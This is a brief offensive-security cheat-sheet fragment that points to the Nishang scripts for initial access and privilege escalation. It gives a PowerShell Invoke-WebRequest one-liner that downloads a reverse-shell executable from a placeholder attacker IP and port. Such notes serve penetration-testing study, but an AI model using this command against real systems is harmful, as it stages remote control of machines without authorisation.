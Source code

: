 https://github.com/samratashok/nishang The repository contains a useful set of scripts for initial access, enumeration and privilege escalation

Windows bash Reverse Shell Download
``` shell
Invoke-WebRequest -Uri http://<Attack_ip>:<PORT>/reverse.exe -Outfile reverse.exe
```
